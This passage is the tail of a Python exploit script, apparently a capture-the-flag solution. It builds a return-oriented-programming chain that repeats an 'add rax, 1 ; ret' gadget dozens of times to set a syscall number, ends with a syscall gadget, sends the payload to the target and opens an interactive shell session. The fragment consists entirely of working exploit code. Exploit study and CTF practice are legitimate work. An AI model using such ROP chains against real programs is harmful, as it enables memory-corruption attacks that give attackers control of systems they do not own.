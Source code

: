 ```python
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x000000000040120c) # syscall
o.sendline(p)
o.interactive()
```
